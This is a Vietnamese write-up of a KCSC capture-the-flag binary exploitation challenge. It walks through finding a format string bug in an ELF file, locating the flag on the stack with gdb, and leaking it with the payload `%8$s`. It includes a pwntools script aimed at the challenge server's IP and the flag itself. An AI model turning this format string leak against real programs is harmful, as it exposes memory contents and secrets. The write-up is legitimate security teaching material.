




# kcscctf.site - Chall

Link challenge (Sẽ đóng vào 1/2/2022): http://kcscctf.site/challenges

Bạn cũng có thể tại challenge tại đây: [chall.zip](chall.zip)

File zip sẽ bao gồm 1 file:
- chall

Và chúng ta bắt đầu nào!

# 1. Tìm lỗi

Vẫn như thường lệ, ta sẽ dùng lệnh `file` để xem thuộc tính file:
```
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=81e66a1016f28954891329304c6644250de76c87, for GNU/Linux 3.2.0, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file bằng `checksec`:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```
Ở đây, **NX enabled** (không thực thi stack được), **PIE enable** (địa chỉ chương trình sẽ thay đổi sau mỗi lần chạy) và **Full RELRO** (Các @got sẽ không thể overwrite được). Có thể sẽ khó khăn nhưng cứ xem tiếp như thế nào đã. Tiếp theo, ta sẽ mở file bằng ghidra để xem mã giả:



Ta có thể thấy được ở dòng 26 có lỗi **format string** với `printf(local_98)`, và hết.

# 2. Ý tưởng

Xem qua code, ta có thể thấy được rằng flag đã được đọc và lưu trên stack. Đồng thời ta cũng có lỗi **format string** giúp ta leak tất cả data có trên stack bao gồm cả flag.

# 3. Khai thác

Đầu tiên, ta tạo 1 file tên `flag.txt` ở máy local để thử nghiệm với nội dung `This_is_fake_flag`.Tiếp đến, ta sẽ chạy thử file chall trong gdb, đặt breakpoint ngay trước câu lệnh printf cuối cùng, chạy tới breakpoint và kiểm tra stack xem flag chúng ta nằm ở đâu:



Vừa chạy thử thì stack đã cho chúng ta biết flag nằm rất gần với địa chỉ rsp hiện tại. Vậy ta chỉ việc leak từ từ các giá trị của stack ra bằng format string `%<số thứ tự>$s` là sẽ được flag. Thử một hồi ta sẽ được vị trí bắt đầu flag là tại `%8$s`



Vậy ta chỉ việc kết nối tới server và nhập `%8$s` là sẽ lấy được flag

Script cho bạn nào cần:
```
from pwn import *

# p = process('./chall')
p = connect('45.77.39.59', 10003)

payload = b'%8$s'
p.recvuntil(b'> ')
p.sendline(payload)
print(p.recv())
```

# 4. Lấy cờ



Vậy flag là `KCSC{17888f2f-a1fd-40cd-9af1-86def4c3be7e}`


